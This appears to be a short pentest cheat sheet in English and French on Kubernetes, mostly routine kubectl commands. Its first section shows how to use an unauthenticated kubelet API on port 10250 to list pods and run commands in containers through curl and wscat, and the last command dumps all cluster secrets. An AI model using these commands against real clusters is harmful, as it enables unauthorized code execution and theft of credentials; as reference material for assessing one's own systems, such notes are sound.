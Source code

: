 Kubernetes
==========

## API
The Kubernetes API exposes the port `10250`. This API can be used to interact with the Kubernetes engine which basically give us the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/pods` :

```
https://<host>:<port>/pods

{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
```

With the above information it's possible to send requests to the API to execute commands:
```bash
$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
```

In the response, there is a `Location` header to create a WebSocket connection:
```bash
$ wscat -c "https://<host>:<port>/<location_header>" --no-check
```


## Lancer un pod qui se supprime automatiquement à la fin
```bash
$ kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
```

## S'attacher à un pod existant
```bash
$ kubectl exec -it k8s-2-test -- /bin/bash
```

## Se connecter à une session existante
```bash
$ kubectl attach k8s-1-test -c k8s-1-test -i -t
```

## Copier un fichier d'un pod à sa machine
```bash
$ kubectl cp default/k8s-1-test:results.nmap ./result_nmaps_banner
```

## Afficher les services (format simple à traiter)
```bash
$ kubectl get services (-o wide)
```

## Afficher les pods (json)
```bash
$ kubectl get pods -o json
```

## Afficher les pods (format simple à traiter)
```bash
$ kubectl get pods -o wide
## Get IP list
$ kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
```

## Afficher l'ensemble des secrets
```bash
$ kubectl get secrets -o yaml
```
